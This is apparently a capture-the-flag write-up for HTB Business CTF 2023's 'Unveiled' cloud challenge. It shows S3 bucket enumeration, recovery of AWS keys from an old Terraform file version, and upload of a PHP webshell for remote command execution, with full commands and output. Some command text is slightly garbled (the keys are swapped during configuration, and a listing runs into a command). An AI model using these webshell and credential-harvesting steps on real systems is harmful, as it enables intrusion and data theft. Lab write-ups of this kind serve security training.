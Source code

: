 # Unveiled (Cloud Challenge)
HTB Business CTF 2023


## Challenge Description
Category: Cloud
Difficulty: Easy
Points: 1000
N/A

## Strategy
The premise revolving around this challenge was to upload a PHP webshell to an openly-accessible AWS S3 Bucket and obtain RCE for the flag.

Connect to the HTB VPN via `sudo openvpn <vpntoken>.ovpn`
Add `unveiled.htb` to your `/etc/hosts` file for local DNS resolution.

Running nmap to the target:
```text
Nmap scan report for unveiled.htb (10.129.253.25)
Host is up (0.019s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp open  http    Apache httpd 2.4.41
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-title: Travel to Planet Red
|_http-server-header: Apache/2.4.41
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Browsing to the website at `http://unveiled.htb` and viewing the source (CTRL + U), we discover a hidden comment detailing another virtual host of `s3.unveiled.htb` which we add to our `/etc/hosts` file and a username of `galen` as shown below.
![unveiled_1](images/unveiled_1.png)
```text
<!-- Last updated Tue 20 Jun 2023 02:39:53 PM by galen-->
<!-- Last updated Tue 20 Jun 2023 02:39:53 PM by galen-->
<script src="http://s3.unveiled.htb/unveiled-backups/main.js"/>
```

AWS Endpoint Function Workaround (Added https://github.com/aws/aws-cli/pull/8006/commits/e34caf506696db97c24d40da5a45e3e5b3bc5cb2)
Make sure you are running the latest version of `aws-cli` so you don't have to type the `--endpoint-url` every time or use the following:
```sh
$ export AWS_ENDPOINT_URL=http://s3.unveiled.htb
function aws() {
	export AWS_DEFAULT_OUTPUT=yaml 
	if [ -z "$AWS_ENDPOINT_URL" ]
	then
		command aws "$@"
	else
		command aws "$@" --endpoint-url "$AWS_ENDPOINT_URL"
	fi
}
```

List buckets accessible:
```sh
$ aws s3api list-buckets
Buckets:
- CreationDate: '2023-07-14T21:12:16+00:00'
  Name: unveiled-backups
- CreationDate: '2023-07-14T21:12:17+00:00'
  Name: website-assets
Owner:
  DisplayName: webfile
  ID: 75aa57f09aa0c8caeab4f8c24e99d10f8e7faeebf76c078efc7c6caea54ba06a

$ aws s3api list-objects-v2 --bucket 'unveiled-backups'
Contents:
- ETag: '"3460d1a10fd1e53c6dbc1f8acd4c3a1b"'
  Key: index.html
  LastModified: '2023-07-14T21:12:18+00:00'
  Size: 4495
  StorageClass: STANDARD
- ETag: '"9c9e9d85b28ce6bbbba93e0860389c65"'
  Key: main.tf
  LastModified: '2023-07-14T21:12:19+00:00'
  Size: 1107
  StorageClass: STANDARD

$ aws s3 ls s3://unveiled-backups/
2023-07-14 17:12:18       4495 index.html
2023-07-14 17:12:19       1107 main.tf
```

Download Files:
```sh
$ aws s3 cp --recursive s3://unveiled-backups .
or ..
$ aws s3 sync s3://unveiled-backups/ .
download: s3://unveiled-backups/main.tf to ./main.tf
download: s3://unveiled-backups/index.html to ./index.html
```

List Bucket Access Control List (ACL):
```sh
$ aws s3api get-bucket-acl --bucket unveiled-backups
Grants:
- Grantee:
    DisplayName: webfile
    ID: 75aa57f09aa0c8caeab4f8c24e99d10f8e7faeebf76c078efc7c6caea54ba06a
    Type: CanonicalUser
  Permission: FULL_CONTROL
Owner:
  DisplayName: webfile
  ID: 75aa57f09aa0c8caeab4f8c24e99d10f8e7faeebf76c078efc7c6caea54ba06a
```

Unintended solution (upload a webshell without creds):
```sh
$ wget https://raw.githubusercontent.com/flozz/p0wny-shell/master/shell.php
$ aws s3api put-object --bucket website-assets --key shell.php --body shell.php
or ...
$ aws s3 cp shell.php s3://website-assets
```

Get AWS S3 Bucket Version Control History:
```sh
$ aws s3api list-object-versions --bucket unveiled-backups
Versions:
- ETag: '"3460d1a10fd1e53c6dbc1f8acd4c3a1b"'
  IsLatest: true
  Key: index.html
  LastModified: '2023-07-14T22:32:50+00:00'
  Owner:
    DisplayName: webfile
    ID: 75aa57f09aa0c8caeab4f8c24e99d10f8e7faeebf76c078efc7c6caea54ba06a
  Size: 4495
  StorageClass: STANDARD
  VersionId: 00c4f891-631b-48a8-a958-e01b196af4f7
- ETag: '"3596df2e55e9786e11a09c32ae21c33c"'
  IsLatest: false
  Key: index.html
  LastModified: '2023-07-14T22:32:50+00:00'
  Owner:
    DisplayName: webfile
    ID: 75aa57f09aa0c8caeab4f8c24e99d10f8e7faeebf76c078efc7c6caea54ba06a
  Size: 4438
  StorageClass: STANDARD
  VersionId: ab1f42c7-0c8d-4a5b-8d70-05d95b71c937
- ETag: '"9c9e9d85b28ce6bbbba93e0860389c65"'
  IsLatest: true
  Key: main.tf
  LastModified: '2023-07-14T22:32:50+00:00'
  Owner:
    DisplayName: webfile
    ID: 75aa57f09aa0c8caeab4f8c24e99d10f8e7faeebf76c078efc7c6caea54ba06a
  Size: 1107
  StorageClass: STANDARD
  VersionId: e760e5b7-cde9-485e-9a6b-de15e1694886
- ETag: '"4947c773e44f5973a9c3d37f24cb8e63"'
  IsLatest: false
  Key: main.tf
  LastModified: '2023-07-14T22:32:50+00:00'
  Owner:
    DisplayName: webfile
    ID: 75aa57f09aa0c8caeab4f8c24e99d10f8e7faeebf76c078efc7c6caea54ba06a
  Size: 1167aws s3api get-object --bucket unveiled-backups --key index.html --version-id 00c4f891-631b-48a8-a958-e01b196af4f7 index.html.old
```

Get Old Revision of Files:
```sh
$ aws s3api get-object --bucket unveiled-backups --key main.tf --version-id 2660dd61-14c4-47e4-ad0e-931c14da88a9 main.tf.old
AcceptRanges: bytes
ContentLength: 1167
ContentType: binary/octet-stream
ETag: '"4947c773e44f5973a9c3d37f24cb8e63"'
LastModified: '2023-07-14T22:32:50+00:00'
Metadata: {}
VersionId: 2660dd61-14c4-47e4-ad0e-931c14da88a9

$ aws s3api get-object --bucket unveiled-backups --key index.html --version-id 00c4f891-631b-48a8-a958-e01b196af4f7 index.html.old
AcceptRanges: bytes
ContentLength: 4495
ContentType: text/html
ETag: '"3460d1a10fd1e53c6dbc1f8acd4c3a1b"'
LastModified: '2023-07-14T22:32:50+00:00'
Metadata: {}
VersionId: 00c4f891-631b-48a8-a958-e01b196af4f7

$ head ./unveiled-backups-old/main.tf
variable "aws_access_key"{
  default = "AKIA6CFMOGFLAHOPQTMA"
}
variable "aws_secret_key"{
  default = "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"
}
```

Configure AWS-CLI with new AWS secrets and check if we can access the private S3 bucket of `website-assets`.
```sh
$ aws configure
AWS Access Key ID: tLK3S3CNsXfj0mjPsIH2iCh5odYHMPDwSVxn7CB5
AWS Secret Access Key: AKIA6CFMOGFLAHOPQTMA
Default region name [us-east-1]:
Default output format [None]:

$ aws sts get-caller-identity
Account: '683633011377'
Arn: arn:aws:iam::683633011377:user/will
UserId: AKIAIOSFODNN7DXV3G29

$ aws s3 ls s3://website-assets
2023-07-14 18:32:49      91790 background.jpg
2023-07-14 18:32:49       4372 index.html
```

Upload webshell with new access keys:
```sh
$ wget https://raw.githubusercontent.com/flozz/p0wny-shell/master/shell.php
or ...
$ echo '<?php system($_REQUEST["cmd"]); ?>' > shell.php

$ aws s3api put-object --bucket website-assets --key shell.php --body shell.php
or ...
$ aws s3 cp shell.php s3://website-assets
```

Access webshell:
```sh
$ firefox http://unveiled.htb/shell.php
```
Can also fetch the flag via curl:
```sh
curl -s -X POST 'http://unveiled.htb/shell.php?feature=shell' --data 'cmd=cat /var/www/flag.txt' | jq -r '.stdout'|base64 -d
HTB{th3_r3d_pl4n3ts_cl0ud_h4s_f4ll3n}
```

Flag: `HTB{th3_r3d_pl4n3ts_cl0ud_h4s_f4ll3n}`
